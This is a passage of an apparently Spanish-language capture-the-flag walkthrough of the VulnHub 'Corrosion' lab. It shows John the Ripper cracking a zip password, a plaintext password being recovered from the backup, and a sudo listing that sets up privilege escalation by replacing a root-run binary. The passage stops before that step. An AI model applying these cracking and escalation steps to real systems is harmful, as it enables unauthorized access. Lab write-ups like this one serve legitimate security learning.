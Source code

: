 utilizamos Lohn de Ripper para descifrar la contrasela utilizando fuerza bruta.
```java 
┌──(root㉿kali)-[/home/…/vulnhub/corrosion2/content/corrosion1]
└─# john -w:/usr/share/wordlists/rockyou.txt hash 
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
!randybaby       (user_backup.zip)     
1g 0:00:00:01 DONE (2023-01-20 20:34) 0.6944g/s 9960Kp/s 9960Kc/s 9960KC/s "2parrow"..*7¡Vamos!
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
Con la credencial encontrada `!randybaby`podemo descomprimir el archivo user_backup.zip
```java 
┌──(root㉿kali)-[/home/…/vulnhub/corrosion2/content/corrosion1]
└─# 7z x user_backup.zip           
7-Zip [64] 16.02 : Copyright (c) 1999-2016 Igor Pavlov : 2016-05-21
p7zip Version 16.02 (locale=es_EC.UTF-8,Utf16=on,HugeFiles=on,64 bits,128 CPUs Intel(R) Core(TM) i7-8550U CPU @ 1.80GHz (806EA),ASM,AES-NI)
Scanning the drive for archives:
1 file, 3285 bytes (4 KiB)
Extracting archive: user_backup.zip
--
Path = user_backup.zip
Type = zip
Physical Size = 3285  
Enter password (will not be echoed):
Everything is Ok
Files: 4
Size:       3324
Compressed: 3285
```
Una vez descifrado el archivo podemos ver el archivo `my_password.txt`, y con esas credenciales cambiar al usuario randy
```java
┌──(root㉿kali)-[/home/…/vulnhub/corrosion2/content/corrosion1]
└─# ls                                  
 credentials   easysysinfo.c   hash   id_rsa   id_rsa.pub   my_password.txt   user_backup.zip
                         
┌──(root㉿kali)-[/home/…/vulnhub/corrosion2/content/corrosion1]
└─# cat my_password.txt 
───────┬─────────────────────────────────────────────────────────────
       │ File: my_password.txt
───────┼─────────────────────────────────────────────────────────────
   1   │ randylovesgoldfish1998
───────┴─────────────────────────────────────────────────────────────
```
Listamos los si hay archivos con privilegios
```java
randy@corrosion:~$ sudo -l
[sudo] password for randy: 
Sorry, try again.
[sudo] password for randy: 
Matching Defaults entries for randy on corrosion:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User randy may run the following commands on corrosion:
    (root) PASSWD: /home/randy/tools/easysysinfo
randy@corrosion:~$ 
```
Con el comadno file podemos ver que tipo de archivo es, una vez, que identificamos que es una archivo binario lo borramos y creamos una archivo test.c para despues compilar 